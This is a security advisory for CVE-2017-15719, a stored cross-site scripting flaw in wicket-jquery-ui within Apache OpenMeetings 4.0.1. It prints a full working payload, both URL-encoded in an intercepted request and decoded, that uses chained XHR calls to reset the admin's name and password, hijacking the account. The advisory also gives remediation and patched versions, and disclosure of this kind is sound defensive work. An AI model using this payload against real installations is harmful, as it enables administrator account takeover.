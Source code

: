 ```yaml
---

layout: post
title: CVE-2017-15719 Wicket jQuery UI XSS in WYSIWYG editor
tagline: Apache OpenMeetings 4.0.1 Vulnerability Report
tag: advisory
---
```


### Description:

It was identified that one of the components of Apache OpenMeetings v 4.0.1 is vulnerable to [Persistent Cross Site Scripting](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FCross-site_Scripting_%28XSS%29) vulnerability. An attacker can exploit these vulnerabilities to hijack admin user's browser along with the data stored in it.  

### Affected Component: wicket-jquery-ui

### Affected Versions: <= 6.28.0, <= 7.9.1, <= 8.0.0-M8

### Test Configuration:

Following is needed in order to reproduce this issue:

* Access to two valid user accounts. (`admin` and `user1` in this example)
* A web browser. (Mozilla Firefox in this example)
* An HTTP intercepting proxy (Burp Suite Professional in this example)


### Proof of Concept:

1. Login to `user1` account and navigate to mailbox by clicking on `Contacts and messages`  button as shown.

   ![Mailbox](/assets/images/apache_openmeetings/1.png)

2. Create a new email to `admin` user with following contents and click on send.

   ![](/assets/images/apache_openmeetings/2.png)

3. Intercept the request and replace the `message:textarea` parameter value as shown and forward the request.  

   ```markdown
   POST /openmeetings/?1-1.0-main~container-main-newMessageDialog HTTP/1.1
   Host: localhost:5080
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:48.0) Gecko/20100101 Firefox/48.0
   Accept: application/xml, text/xml, */*; q=0.01
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded; charset=UTF-8
   Wicket-Ajax: true
   Wicket-Ajax-BaseURL: .
   Wicket-FocusedElementId: btnad
   X-Requested-With: XMLHttpRequest
   Referer: http://localhost:5080/openmeetings/
   Content-Length: 5854
   Cookie: wicketDebugBarState=collapsed; JSESSIONID=EBF252840768E072D61FB49991CEC0B6
   Connection: close

   to=1&subject=Hello&message%3Atextarea=`This%20mail%20was%20sent%20accidently%20to%20you%2C%20please%20ignore%20this.%0A%3Cscript%3E%0A%20%20%20%20%20%20function%20x%28%29%0A%20%20%20%20%20%20%7B%0A%09%09var%20u%3B%0A%09%09var%20uid%3B%0A%09%09var%20data%20%3D%20%22%22%3B%0A%09%09%09for%20%28var%20i%3D0%3B%20i%20%3C%20document.scripts.length%3B%20i%20%2b%2b%29%7B%0A%09%09%09%09data%20%2b%3D%20document.scripts%5Bi%5D.text%3B%0A%09%09%09%7D%0A%09%09%09var%20m%20%3D%20data.match%28%2f%5E.%2a%3F%5C%28%5C%7B%5C%22u%5C%22%5C%3A%5C%22%5C.%5C%2f%28.%2a%3F%29%5C%22%5C%7D%5C%29%5C%3B%5C%3B%24%2fim%29%3B%0A%09%09%09u%20%3D%20m%5B1%5D%3B%0A%09%09%09%0A%09%09%09for%20%28var%20i%3D0%3Bi%20%3C%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29.length%3Bi%2b%2b%29%7B%0A%09%09%09%09if%20%28document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.title%20%3D%3D%20%22Manage%20users%20and%20rights%22%29%7B%0A%09%09%09%09%09uid%20%3D%20document.getElementsByClassName%28%22sub%20ui-menu-item%22%29%5Bi%5D.id%3B%0A%09%09%09%09%09break%3B%0A%09%09%09%09%7D%0A%09%09%09%7D%0A%09%09%09y1%28u%2Cuid%29%3B%0A%09%09%7D%0A%09%09%0A%09function%20y1%28u%2Cuid%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%2f%2flocalhost%3A5080%2fopenmeetings%2f%22%2bu%2b%22main%7Econtainer-main-topControls-menu-menu%26hash%3D%22%2buid%2b%22%26_%3D%22%3B%0A%09%09var%20b%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09b.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09b.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20b.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09b.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09b.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09b.responseType%20%3D%20%22document%22%3B%0A%09%09b.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09b.onload%20%3D%20function%28%29%7B%0A%09%09%09y2%28u%29%3B%0A%09%09%7D%0A%09%09b.send%28%29%3B%09%0A%09%7D%0A%09%0A%09function%20y2%28u%29%7B%0A%09%09var%20ul%20%3D%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-listContainer-userList-1%26_%3D1513604035452%22%3B%0A%09%09var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%09%09xhr.open%28%22GET%22%2Cul%2Ctrue%29%3B%0A%09%09xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%09%09xhr.overrideMimeType%28%27text%2fxml%27%29%3B%0A%09%09xhr.onload%20%3D%20function%28%29%20%7B%0A%09%09%09var%20t%20%3D%20this.responseXML.documentElement.getElementsByTagName%28%27component%27%29%5B0%5D.textContent%3B%0A%09%09%09var%20d%20%3D%20new%20DOMParser%28%29.parseFromString%28t%2C%22text%2fxml%22%29%3B%0A%09%09%09var%20r%20%3D%20d.getElementsByName%28%27comunity%3Acommunity_settings%27%29%5B1%5D.getAttribute%28%27value%27%29%3B%0A%09%09%09z%28u%2Cr%29%3B%0A%09%09%7D%0A%09%09xhr.responseType%20%3D%20%22document%22%3B%0A%09%09xhr.send%28%29%3B%0A%09%7D%0A%09%0A%09function%20z%28u%2Cr%29%0A%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%0A%20%20%20%20%20%20%20%20xhr.open%28%22POST%22%2C%20%22http%3A%5C%2f%5C%2flocalhost%3A5080%5C%2fopenmeetings%5C%2f%22%2bu%2b%22main%7Econtainer-main-contents-child-form-buttons-ajax%7Esave%7Ebutton%22%2C%20true%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept%22%2C%20%22application%5C%2fxml%2C%20text%5C%2fxml%2C%20%2a%5C%2f%2a%3B%20q%3D0.01%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Accept-Language%22%2C%20%22en-US%2Cen%3Bq%3D0.5%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Content-Type%22%2C%20%22application%5C%2fx-www-form-urlencoded%3B%20charset%3DUTF-8%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.setRequestHeader%28%22Wicket-Ajax%22%2C%22true%22%29%3B%0A%09%09xhr.setRequestHeader%28%22Wicket-Ajax-BaseURL%22%2C%22.%22%29%3B%0A%09%09xhr.setRequestHeader%28%22X-Requested-With%22%2C%22XMLHttpRequest%22%29%3B%0A%20%20%20%20%20%20%20%20xhr.withCredentials%20%3D%20true%3B%0A%20%20%20%20%20%20%20%20var%20body%20%3D%20%22login%3Dadmin%26password%3DPass@123%26general%253Aaddress.email%3Dadmin%2540localhost.com%26general%253Asalutation%3Dmr%26general%253Afirstname%3Dadminhijacked%26general%253Alastname%3Dadminhijacked%26general%253AtimeZoneId%3D281%26general%253AlanguageId%3D1%26general%253Aaddress.phone%3D%26general%253Aage%3D27%252F11%252F17%26general%253Aaddress.street%3D%26general%253Aaddress.additionalname%3D%26general%253Aaddress.zip%3D%26general%253Aaddress.town%3D%26general%253Aaddress.country%3DIN%26general%253Aaddress.comment%3D%26general%253AgroupUsers%3D1%26type%3D0%26rights%3DRoom%26rights%3DSoap%26rights%3DDashboard%26rights%3DAdmin%26rights%3DLogin%26comunity%253Acommunity_settings%3D%22%2br%2b%22%26comunity%253AuserOffers%3D%26comunity%253AuserSearchs%3D%26buttons%253Aajax-save-button%3D1%22%3B%0A%20%20%20%20%20%20%20%20var%20aBody%20%3D%20new%20Uint8Array%28body.length%29%3B%0A%20%20%20%20%20%20%20%20for%20%28var%20i%20%3D%200%3B%20i%20%3C%20aBody.length%3B%20i%2b%2b%29%0A%20%20%20%20%20%20%20%20%20%20aBody%5Bi%5D%20%3D%20body.charCodeAt%28i%29%3B%20%0A%20%20%20%20%20%20%20%20xhr.send%28new%20Blob%28%5BaBody%5D%29%29%3B%0A%20%20%20%20%20%20%7D%09%09%0A%20%20%20%20%20%20x%28%29%3B%0A%3C%2fscript%3E`
   ```

4. URL encoded payload shown in above request when executed will send a sequence of requests to change `admin` user's `firstname` ,`lastname` and `password`.

   *Note: For working of the exploit code shown below, **hostname** needs to updated accordingly.*

   {% highlight html %}
// Fetch user uid values from current DOM

<script>
function x()
     {
    var u;
    var uid;
    var data = "";
      for (var i=0; i < document.scripts.length; i ++){
        data += document.scripts[i].text;
      }
      var m = data.match(/^.*?\(\{\"u\"\:\"\.\/(.*?)\"\}\)\;\;$/im);
      u = m[1];

      for (var i=0;i < document.getElementsByClassName("sub ui-menu-item").length;i++){
        if (document.getElementsByClassName("sub ui-menu-item")[i].title == "Manage users and rights"){
          uid = document.getElementsByClassName("sub ui-menu-item")[i].id;
          break;
        }
      }
      y1(u,uid);
    }

// mandatory request to fulfill entire requests chain

function y1(u,uid){
  var ul = "http://localhost:5080/openmeetings/"+u+"main~container-main-topControls-menu-menu&hash="+uid+"&_=";
  var b = new XMLHttpRequest();
  b.open("GET",ul,true);
  b.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
     b.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
     b.setRequestHeader("Wicket-Ajax","true");
  b.setRequestHeader("Wicket-Ajax-BaseURL",".");
  b.setRequestHeader("X-Requested-With","XMLHttpRequest");
  b.responseType = "document";
  b.overrideMimeType('text/xml');
  b.onload = function(){
    y2(u);
  }
  b.send();
}

// Get community_settings value

  function y2(u){
    var ul = "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-listContainer-userList-1&_=1513604035452";
    var xhr = new XMLHttpRequest();
    xhr.open("GET",ul,true);
    xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
       xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
       xhr.setRequestHeader("Wicket-Ajax","true");
    xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
    xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
    xhr.overrideMimeType('text/xml');
    xhr.onload = function() {
      var t = this.responseXML.documentElement.getElementsByTagName('component')[0].textContent;
      var d = new DOMParser().parseFromString(t,"text/xml");
      var r = d.getElementsByName('comunity:community_settings')[1].getAttribute('value');
      z(u,r);
    }
    xhr.responseType = "document";
    xhr.send();
  }

// Final password change request

  function z(u,r)
     {
       var xhr = new XMLHttpRequest();
       xhr.open("POST", "http:\/\/localhost:5080\/openmeetings\/"+u+"main~container-main-contents-child-form-buttons-ajax~save~button", true);
       xhr.setRequestHeader("Accept", "application\/xml, text\/xml, *\/*; q=0.01");
       xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
       xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
       xhr.setRequestHeader("Wicket-Ajax","true");
    xhr.setRequestHeader("Wicket-Ajax-BaseURL",".");
    xhr.setRequestHeader("X-Requested-With","XMLHttpRequest");
       xhr.withCredentials = true;
       var body = "login=admin&password=Pass@123&general%3Aaddress.email=admin%40localhost.com&general%3Asalutation=mr&general%3Afirstname=adminhijacked&general%3Alastname=adminhijacked&general%3AtimeZoneId=281&general%3AlanguageId=1&general%3Aaddress.phone=&general%3Aage=27%2F11%2F17&general%3Aaddress.street=&general%3Aaddress.additionalname=&general%3Aaddress.zip=&general%3Aaddress.town=&general%3Aaddress.country=IN&general%3Aaddress.comment=&general%3AgroupUsers=1&type=0&rights=Room&rights=Soap&rights=Dashboard&rights=Admin&rights=Login&comunity%3Acommunity_settings="+r+"&comunity%3AuserOffers=&comunity%3AuserSearchs=&buttons%3Aajax-save-button=1";
       var aBody = new Uint8Array(body.length);
       for (var i = 0; i < aBody.length; i++)
         aBody[i] = body.charCodeAt(i);
       xhr.send(new Blob([aBody]));
     }    
     x();
</script>
{% endhighlight %}

   ​

5. Login to `admin` user account in a private browser window and navigate to mailbox by following `step1`.

6. Open the email sent by `user1` and observe that the application sends a sequence of XHR requests while executing our *XSS* payload.

  ![](/assets/images/apache_openmeetings/4.png)

  ![](/assets/images/apache_openmeetings/6.png)

7. Navigate to `Profile` settings of `admin` user and observe that first and last name has changed successfully as defined in the exploit code shown in `Step 4`.

   ![](/assets/images/apache_openmeetings/5.png)

8. We can now login to admin account with password `Pass@123` as defined in exploit.

   ![](/assets/images/apache_openmeetings/7.png)

   ![](/assets/images/apache_openmeetings/8.png)


### Remediation:

It is recommended to validate user input and implement  [Context Specific Filtering](https%3A%2F%2Fwww.owasp.org%2Findex.php%2FXSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet) in application response.


### Vendor Patches:

This issue was fixed in **wicket-jquery-ui** versions **6.28.1**, **7.9.2** and **8.0.0-M8.1**. All Users are recommended to upgrade to [Apache OpenMeetings 4.0.2](https://openmeetings.apache.org/downloads.html).
